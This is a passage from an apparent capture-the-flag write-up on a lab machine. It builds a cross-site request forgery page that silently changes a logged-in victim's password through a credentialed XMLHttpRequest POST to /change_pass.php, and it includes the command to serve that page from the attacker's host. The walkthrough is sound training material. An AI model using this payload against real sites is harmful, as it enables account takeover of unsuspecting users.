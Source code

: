 After playing around with the website, it may be possible to have the user visit a page hosted on Kali that will submit an HTTP POST request to `/change_pass.php` in order to change the password to something known. The HTTP POST request for `/change_pass.php` looks like the following in BurpSuite after submitting the form:

![burp2](./secnotes/burp2.png)

Now create the HTTP POST request that will be submitted when the target visits the page on Kali:

- https://www.w3schools.com/js/js_ajax_http_send.asp
- https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest
- https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/withCredentials
- https://xhr.spec.whatwg.org/#the-withcredentials-attribute

```html
<html>
  <head>
    <title>BUBBA</title>
  </head>
  <body>
    <p>BUBBA</p>
    <script>
      var xhr = new XMLHttpRequest();
      xhr.open("POST", "http://10.10.10.97/change_pass.php", false);
      xhr.withCredentials = true;
      xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      xhr.send("password=bubbagump&confirm_password=bubbagump&submit=submit");
    </script>
  </body>
</html>
```

Then host the above HTML file as `bubba.html`:

```bash
sudo python3 -m http.server 80
```

And submit a new message with the following URL:
